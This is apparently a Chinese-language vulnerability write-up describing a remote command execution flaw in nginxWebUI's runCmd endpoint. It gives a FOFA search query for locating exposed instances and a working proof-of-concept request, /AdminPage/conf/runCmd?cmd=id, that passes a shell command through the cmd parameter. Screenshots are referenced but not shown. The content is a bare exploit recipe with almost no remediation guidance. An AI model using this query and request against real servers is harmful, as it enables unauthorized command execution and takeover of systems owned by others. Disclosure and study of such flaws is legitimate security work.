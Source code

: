 # nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

nginxWebUI

## FOFA

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20230704113502611](./images/image-20230704113502611.png)

验证请求包

```
/AdminPage/conf/runCmd?cmd=id
```

![image-20230704113520591](./images/image-20230704113520591.png)
